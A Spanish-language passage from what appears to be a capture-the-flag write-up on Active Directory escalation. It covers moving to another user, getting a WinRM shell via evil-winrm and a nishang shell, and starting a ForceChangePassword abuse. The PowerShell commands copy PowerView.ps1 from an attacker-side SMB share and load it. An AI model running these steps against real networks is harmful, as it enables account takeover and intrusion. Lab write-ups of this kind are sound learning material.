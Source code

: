 ![Write-up Image](images/Screenshot_4.png)

Estos dos usuarios pertenecen a los mismos grupos, vamos a migrar a `jacob.greeny`.

Además, estos usuarios están en el grupo de `Remote Management Users` por lo cual vamos a poder hacer uso de `evil-winrm` para conseguir una consola interactiva a través del protocolo WinRM.

# Abusing ForceChangePassword
Antes de nada, he migrado a una shell de `nishang` para trabajar mas cómodamente.

Ahora me comparto el `PowerView.ps1` y importamos sus módulos.
```powershell
PS C:\Users\dallon.matrix\Desktop> copy \\10.10.14.80\smbFolder\PowerView.ps1 PowerView.ps1

PS C:\Users\dallon.matrix\Desktop> . .\PowerView.ps1
```
